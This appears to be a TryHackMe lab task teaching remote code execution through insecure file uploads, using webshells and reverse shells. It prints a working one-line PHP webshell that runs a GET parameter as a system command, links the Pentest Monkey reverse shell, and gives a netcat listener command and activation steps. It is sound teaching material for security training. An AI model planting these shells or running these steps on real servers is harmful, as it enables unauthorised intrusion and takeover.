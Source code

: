 
It's all well and good overwriting files that exist on the server. That's a nuisance to the person maintaining the site, and may lead to some vulnerabilities, but let's go further; let's go for RCE!

Remote Code Execution (as the name suggests) would allow us to execute code arbitrarily on the web server. Whilst this is likely to be as a low\-privileged web user account (such as `www-data` on Linux servers), it's still an extremely serious vulnerability. Remote code execution via an upload vulnerability in a web application tends to be exploited by uploading a program written in the same language as the back\-end of the website (or another language which the server understands and will execute). Traditionally this would be PHP, however, in more recent times, other back\-end languages have become more common (Python Django and Javascript in the form of Node.js being prime examples). It's worth noting that in a *routed* application (i.e. an application where the routes are defined programmatically rather than being mapped to the file\-system), this method of attack becomes a lot more complicated and a lot less likely to occur. Most modern web frameworks are routed programmatically.

There are two basic ways to achieve RCE on a webserver when exploiting a file upload vulnerability: webshells, and reverse/bind shells. Realistically a fully featured reverse/bind shell is the ideal goal for an attacker; however, a webshell may be the only option available (for example, if a file length limit has been imposed on uploads, or if firewall rules prevent any network\-based shells). We'll take a look at each of these in turn. As a general methodology, we would be looking to upload a shell of one kind or another, then activating it, either by navigating directly to the file if the server allows it (non\-routed applications with inadequate restrictions), or by otherwise forcing the webapp to run the script for us (necessary in routed applications).

---

*Web shells:*

Let's assume that we've found a webpage with an upload form:

![](https://i.imgur.com/GxMJAKH.png)

Where do we go from here? Well, let's start with a gobuster scan:![](https://i.imgur.com/OftwAIE.png)

Looks like we've got two directories here \-\- `uploads` and `assets`. Of these, it seems likely that any files we upload will be placed in the "uploads" directory. We'll try uploading a legitimate image file first. Here I am choosing our cute dog photo from the previous task:

![](https://i.imgur.com/aAyIrod.png)

![](https://i.imgur.com/mIbGRIk.png)

Now, if we go to `http://demo.uploadvulns.thm/uploads` we should see that the spaniel picture has been uploaded!

![](https://i.imgur.com/lVe2tjL.png)

![](https://i.imgur.com/N8vWlVO.png)

Ok, we can upload images. Let's try a webshell now.

As it is, we know that this webserver is running with a PHP back\-end, so we'll skip straight to creating and uploading the shell. In real life, we may need to do a little more enumeration; however, PHP is a good place to start regardless.

A simple webshell works by taking a parameter and executing it as a system command. In PHP, the syntax for this would be:

`<?php
    echo system($_GET["cmd"]);
?>`

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:

![](https://i.imgur.com/CU0Uyx5.png)

Success!

We could now use this shell to read files from the system, or upgrade from here to a reverse shell. Now that we have RCE, the options are limitless. Note that when using webshells, it's usually easier to view the output by looking at the source code of the page. This drastically improves the formatting of the output.

---

*Reverse Shells:*

The process for uploading a reverse shell is almost identical to that of uploading a webshell, so this section will be shorter. We'll be using the ubiquitous Pentest Monkey reverse shell, which comes by default on Kali Linux, but can also be downloaded [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently say `$ip = '127.0.0.1';  // CHANGE THIS
` \-\- as it instructs, change `127.0.0.1` to your TryHackMe tun0 IP address, which can be found on the [access page](https://tryhackme.com/access). You can ignore the following line, which also asks to be changed. With the shell edited, the next thing we need to do is start a Netcat listener to receive the connection. `nc -lvnp 1234`:

![](https://i.imgur.com/ysY306E.png)

Now, let's upload the shell, then activate it by navigating to `http://demo.uploadvulns.thm/uploads/shell.php`. The name of the shell will obviously be whatever you called it (`php-reverse-shell.php` by default).

The website should hang and not load properly \-\- however, if we switch back to our terminal, we have a hit!

![](https://i.imgur.com/he0hbiR.png)

Once again, we have obtained RCE on this webserver. From here we would want to stabilise our shell and escalate our privileges, but those are tasks for another time. For now, it's time you tried this for yourself!

---

Navigate to `shell.uploadvulns.thm` and complete the questions for this task.

Answer the questions below

Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads?

*(N.B. This is a good habit to get into, and will serve you well in the upcoming tasks...)*